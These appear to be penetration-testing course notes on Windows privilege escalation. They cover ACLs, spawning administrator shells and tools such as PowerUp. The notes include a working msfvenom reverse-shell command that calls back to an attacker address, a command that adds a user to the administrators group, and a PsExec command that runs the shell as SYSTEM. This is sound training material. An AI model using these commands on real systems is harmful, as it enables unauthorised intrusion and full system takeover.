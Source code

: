 Whether a user and/or group has permissions to perform a certain action on a resource depends on that resource's access control list (ACL).

Permissions to access a certain resource in Windows are controlled by the access control list (ACL) for that resource. Each ACL is made up of zero or more access control entries (ACEs).
Each ACE defines the relationship between a principal (e.g. a user, group) and a certain access right.

## Spawning Administrator Shells

### msfvenom
If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:
```bash
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```

This reverse shell can be caught using netcat or Metasploit's own multi/handler.

### RDP
If RDP is available (or we can enable it), we can add our low privilege user to the administrators group and spawn an administrator command prompt via the GUI.
```cmd
> net localgroup administrators <username> /add
```

### Admin -> SYSTEM
To escalate from admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals. [Here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
```cmd
> .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

## Privilege Escalation Tools
Tools allow us to automate the reconnaissance that can identify potential privilege escalations. This course mainly uses winPEAS and Seatbelt. Check out WinEnum.

### PowerUp & SharpUp
Very similar tools that hunt for specific privilege escalation misconfigurations
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
[SharpUp](https://github.com/GhostPack/SharpUp)

To run PowerUp, start a PowerShell session and use dot sourcing to load the script:
```ps1
ps1> . .\PowerUp.ps1
```

Run the Invoke-AllChecks function to start checking for command Privilege escalation misconfigurations
```ps1
ps1> Invoke-AllChecks
```
